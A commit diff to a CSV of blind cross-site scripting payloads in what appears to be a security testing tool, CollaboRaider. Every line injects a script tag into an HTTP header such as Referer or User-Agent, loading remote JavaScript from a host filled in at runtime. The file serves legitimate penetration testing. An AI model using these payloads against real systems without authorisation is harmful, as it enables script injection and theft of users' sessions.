

Before and after one commit to CompassSecurity/CollaboRaider, a CSV file: payloads/injections_blind_xss.csv, drawn as a sheet.

Commit message:
use https / protocol-relative links

```diff
--- a/payloads/injections_blind_xss.csv
+++ b/payloads/injections_blind_xss.csv
@@ -1,6 +1,7 @@
-header,X-Forwarded-Proto,"><script src="https://%s/"></script>
-header,Referer,"><script src="https://%s/"></script>
-header,X-Forwarded-For,"><script src="https://%s/"></script>
-header,True-Client-IP,"><script src="https://%s/"></script>
-header,X-Client-IP,"><script src="https://%s/"></script>
-header,X-Real-IP,"><script src="https://%s/"></script>
+header,X-Forwarded-Proto,"><script src="//%s/"></script>
+header,Referer,"><script src="//%s/"></script>
+header,X-Forwarded-For,"><script src="//%s/"></script>
+header,True-Client-IP,"><script src="//%s/"></script>
+header,X-Client-IP,"><script src="//%s/"></script>
+header,X-Real-IP,"><script src="//%s/"></script>
+header,User-Agent,"><script src="//%s"></script>
```
Also changed, not shown: 1 other file.
